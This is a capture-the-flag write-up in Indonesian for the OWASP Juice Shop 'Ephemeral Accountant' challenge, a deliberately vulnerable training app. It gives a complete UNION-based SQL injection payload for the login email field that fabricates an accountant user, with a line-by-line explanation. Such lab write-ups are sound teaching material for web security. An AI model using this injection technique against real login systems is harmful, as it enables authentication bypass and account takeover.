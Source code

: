 # Challenge: Ephemeral Accountant

Category: Injection
Points: 4 Stars
Difficulty: Medium

## Challenge Description

Log in with the (non-existing) accountant acc0unt4nt@juice-sh.op without ever registering that user.

## Resource

[OWASP Juice Shop - Injection Challenges](https://juice-shop.herokuapp.com/#/score-board?categories=Injection)

## Step-by-Step Solution

1. Dari challange Database Schema, kita bisa melihat command SQL, kita bisa manfaatkan itu
   ![](images/step1-inject-url.png)
2. Dari situ kita akan buat query SQL Lalu kita bisa masukkan ke field email pada login
   ![](images/step2-login.png)

**Payload SQL Injection yang digunakan:**

```sql
' UNION SELECT 10 as id, 'accountant' as username, 'acc0unt4nt@juice-sh.op' as email, '1234' as password, 'customer' as role, '' as deluxeToken, '192.168.1.17' as lastLoginIp, 'default.svg' as profileImage, '' as totpSecret, 1 as isActive, '2024-08-30 14:32:12.456' as createdAt, '2024-08-30 14:32:12.456' as updatedAt, null as deletedAt--' AND password = '098f6bcd4621d373cade4e832627b4f6' AND deletedAt IS NULL;
```

**Penjelasan Payload:**

- `' UNION SELECT` - Menambahkan data virtual ke hasil query
- `10 as id` - ID user yang sudah ada (untuk menghindari conflict)
- `'acc0unt4nt@juice-sh.op' as email` - Email target yang diminta challenge
- `'1234' as password` - Password yang akan kita gunakan
- `'098f6bcd4621d373cade4e832627b4f6'` - MD5 hash dari password "test"
- `--` - Comment untuk mengabaikan sisa query

3. Login berhasil dengan user accountant yang dibuat secara virtual
   ![](images/step3-success.png)

## Reflection

- **Status:** ✅ Berhasil
- **Root Cause:** Query SQL pada login tidak memiliki validasi input yang proper untuk UNION injection
- **Attack Vector:** UNION-based SQL injection melalui parameter email untuk membuat user virtual
- **Key Insight:**
  - Berhasil menggunakan UNION SELECT untuk menambahkan data user virtual ke hasil query
  - Memanfaatkan struktur database yang sudah diketahui dari challenge sebelumnya
  - Menggunakan MD5 hash yang sudah diketahui untuk password "test"
  - Demonstrasi bagaimana SQL injection bisa digunakan untuk privilege escalation dan account creation
  - Teknik ini memungkinkan login dengan user yang tidak pernah didaftarkan sebelumnya

